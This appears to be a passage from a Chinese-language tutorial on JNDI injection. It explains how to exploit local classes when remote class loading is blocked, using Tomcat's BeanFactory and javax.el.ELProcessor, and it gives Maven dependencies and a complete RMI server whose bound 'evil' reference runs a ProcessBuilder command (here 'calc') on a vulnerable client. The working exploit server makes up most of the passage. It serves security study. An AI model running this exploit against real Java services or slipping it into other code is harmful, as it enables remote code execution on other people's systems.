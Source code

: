 上面说到Client会先尝试本地加载类，因此lookup请求后，加载并实例化了Test类

> Static Code
> Constructor Code
> Non-Arg Constructor
> getObjectInstance

## 本地Class利用

远程打不了，在本地查找可利用的类。

目前公开常用的利用方法是通过 **Tomcat** 的 **org.apache.naming.factory.BeanFactory** 工厂类去调用 **javax.el.ELProcessor#eval** 方法或 **groovy.lang.GroovyShell#evaluate** 方法

> org.apache.naming.factory.BeanFactory 在 getObjectInstance() 中会通过反射的方式实例化Reference所指向的Bean Class，并且能调用一些指定的方法

要使用 `javax.el.ELProcessor`，需要 `Tomcat 8+`或`SpringBoot 1.2.x+`

```xml
<dependency>
	<groupId>org.apache.tomcat</groupId>
	<artifactId>tomcat-dbcp</artifactId>
	<version>9.0.8</version>
</dependency>
<dependency>
	<groupId>org.apache.tomcat</groupId>
	<artifactId>tomcat-catalina</artifactId>
	<version>9.0.8</version>
</dependency>
<dependency>
	<groupId>org.apache.tomcat</groupId>
	<artifactId>tomcat-jasper</artifactId>
	<version>9.0.8</version>
</dependency>
```

Server：

```java
import com.sun.jndi.rmi.registry.ReferenceWrapper;
import org.apache.naming.ResourceRef;

import javax.naming.StringRefAddr;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;


public class Server {
    public static void main(String[] args) throws Exception {
        Registry r = LocateRegistry.createRegistry(1099);
        ResourceRef ref = new ResourceRef("javax.el.ELProcessor", null, "", "", true,"org.apache.naming.factory.BeanFactory",null);
        ref.add(new StringRefAddr("forceString", "x=eval"));
        ref.add(new StringRefAddr("x", "\"\".getClass().forName(\"javax.script.ScriptEngineManager\").newInstance().getEngineByName(\"JavaScript\").eval(\"new java.lang.ProcessBuilder['(java.lang.String[])'](['calc']).start()\")"));
        ReferenceWrapper referenceWrapper = new ReferenceWrapper(ref);
        r.bind("evil",referenceWrapper);
        System.out.println("running");
    }
}
```
